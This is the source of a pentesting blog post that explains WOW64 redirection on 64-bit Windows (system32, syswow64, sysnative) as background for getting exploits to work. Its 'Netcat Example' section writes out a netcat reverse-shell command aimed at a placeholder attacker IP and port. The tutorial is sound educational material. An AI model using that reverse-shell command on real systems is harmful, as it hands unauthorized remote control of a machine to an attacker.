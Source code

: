 ```yaml
---
layout: post
published: true
featured: true
title: WOW64 for Pentesters
headline: 'WOW64'
description: WOW64 for Pentesters
modified: '2019-03-01'
categories:
  - hacking
  - windows
tags: hacking windows wow64 powershell sysnative pentest oscp
---
```

## The Problem

Exploit code can be challenging to make work, it can be rough around the edges, specific to certain environments and libraries, and have syntax errors and bugs.  Some Windows-based exploits require an understanding and navigation of 32-bit application compatibility on 64-bit systems, which Windows calls "Windows on Windows" or WOW64.  This also applies to Powershell, which has both 32-bit and 64-bit versions of powershell.exe.

## The Solution

The 64-bit versions of Windows provide an emulation layer for 32-bit applications that provide access to 32-bit versions of libraries, executables, directories and registry keys so that these apps can run transparently without modification. 

This emulation layer is called WOW64 (Windows on Windows) and by understanding how it works, you can run 64-bit versions of apps from a 32-bit process and vice versa.

## Detecting 64-bit Windows

There are several ways to detect a 64-bit version of Windows, one of which is to use the _set_ command to display environment variables and look for processor architecture. Another simple way is to verify the presence of the _Program Files (x86)_ directory, which only exists on 64-bit versions of Windows.

## File Redirection for 32-Bit Apps

Windows 64-bit libraries and executables are located in the _%SYSTEMROOT%\system32_ directory.  The name may seem confusing, but was done to maintain backwards compatibility because of hard coded paths.  

Windows 32-bit libraries and executables are located in the _%SYSTEMROOT%\syswow64_ directory, but instead of having to modify paths in source code, WOW64 transparent redirects 32-bit app calls from _%SYSTEMROOT%\system32_ to _%SYSTEMROOT%\syswow64_.

A 32-bit app can also explicitly access 64-bit versions using the _%SYSTEMROOT%\sysnative_ path (not visible in Windows Explorer).

> 32-bit app > 32-bit versions > \system32 ( secretly redirected to \syswow64)
> 32-bit app > 64-bit versions > \sysnative

A 64-bit application can also access 32-bit versions directly using \syswow64.

>  64-bit app > 32-bit versions > \syswow64

## Netcat Example

When spawning a command shell from a Windows system, in many situations you might transfer nc.exe to the host to spawn a reverse shell using the _-e cmd.exe_ switch.  Because the nc.exe binary is 32-bit, it will call the 32-bit version of cmd.exe and any commands you use will be 32-bit versions, including powershell.exe. 

There's a few ways around this if needed:

Explictly spawn the 64-bit version of cmd.exe with netcat if you are certain your target is 64-bit:

```powershell

  nc.exe -e %SYSTEMROOT%\sysnative\cmd.exe ATTACKER-IP ATTACKER-PORT

```
<p> </p>

Spawn the 32-bit cmd.exe but explicitly call 64-bit versions of apps, using  the sysnative path.
Here's an example I had to use recently to explicitly open a 64-bit powershell prompt from a 32-bit cmd.exe shell.

```powershell

  %SystemRoot%\sysnative\WindowsPowerShell\v1.0\powershell.exe

```
<p> </p>

## Further Reading

- [WOW64 Implementation](https://www.google.com/url?q=https%3A%2F%2Fdocs.microsoft.com%2Fen-us%2Fwindows%2Fwin32%2Fwinprog64%2Fwow64-implementation-details&sa=D&sntz=1&usg=AFQjCNGd8WizV4rztmURfGV_gTqyJ1J-dQ)
- [Running 32-Bit Applications](https://www.google.com/url?q=https%3A%2F%2Fdocs.microsoft.com%2Fen-us%2Fwindows%2Fwin32%2Fwinprog64%2Frunning-32-bit-applications&sa=D&sntz=1&usg=AFQjCNGZLoBioW3ekJr23FDLA8eWWBiqaA)
- [Accessing Alternate Registry Views](https://www.google.com/url?q=https%3A%2F%2Fdocs.microsoft.com%2Fen-us%2Fwindows%2Fwin32%2Fwinprog64%2Faccessing-an-alternate-registry-view&sa=D&sntz=1&usg=AFQjCNFqcilC4yY0Yz4u-yOfEQxsiKuwzw)

<p>&nbsp;</p>  
<p>&nbsp;</p>  
